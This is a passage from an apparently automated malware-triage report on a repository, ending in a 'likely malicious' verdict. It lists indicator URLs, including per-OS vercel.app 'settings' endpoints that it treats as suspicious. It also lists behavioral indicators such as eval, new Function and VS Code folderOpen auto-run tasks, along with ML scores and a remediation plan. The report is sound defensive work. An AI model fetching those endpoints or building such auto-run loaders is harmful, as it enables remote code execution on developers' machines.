- `https://microsoft.github.io/win-student-devs/#/30DaysOfPWA/advanced-capabilities/06`
- `https://microsoft.github.io/win-student-devs/#/30DaysOfPWA/advanced-capabilities/07?id=application-badges`
- `https://microsoft.github.io/win-student-devs/#/30DaysOfPWA/advanced-capabilities/07?id=push-notifications-on-the-web`
- `https://vscode-toolkit-settings.vercel.app/settings/linux?flag=302`
- `https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`
- `https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`
- `https://web.dev/periodic-background-sync/`
- `https://www.mnot.net/blog/2007/12/12/stale`

### Behavioral IOCs
- Dynamic execution primitives (`new Function`, `eval`, shell execution APIs).
- Auto-run workflow hooks (`runOn: folderOpen`) and unattended execution paths.
- Encoded payload indicators (base64 blobs, hex-escaped sequences, high-entropy scripts).

---

## ML Feature Snapshot

| Feature | Value |
|---|---:|
| critical_count | 70.0000 |
| finding_density | 2.1034 |
| hex_escape_total | 0.0000 |
| high_count | 50.0000 |
| max_file_entropy | 5.4288 |
| obfuscation_signals | 24.0000 |
| persistence_signals | 8.0000 |
| rce_signals | 62.0000 |
| suspicious_domain_hits | 4.0000 |

---

## Remediation Plan

### Immediate Containment (0-2 hours)
1. Quarantine suspicious files and disable IDE auto-task execution.
2. Remove dynamic code execution and remote bootstrap logic.
3. Block/monitor IOC domains and rotate exposed credentials.

### Eradication (same day)
1. Replace hardcoded secrets with managed environment secrets.
2. Add CI checks for dangerous primitives and auto-exec behaviors.
3. Validate all dependencies and remove unnecessary packages.

### Recovery & Hardening (1-3 days)
1. Re-image impacted hosts when code execution is confirmed.
2. Add SAST + secret scanning + dependency scanning in CI/CD.
3. Enforce secure coding policy for external assessment repositories.



---

## Confidence & Limitations

- Confidence is highest for static anti-patterns and known malware staging behaviors.
- Report does not execute payloads; dynamic sandboxing may reveal additional behavior.
- ML outputs are heuristic and intended for triage prioritization.

## Final Assessment

**Likely malicious** based on combined static findings and ML/anomaly scoring.
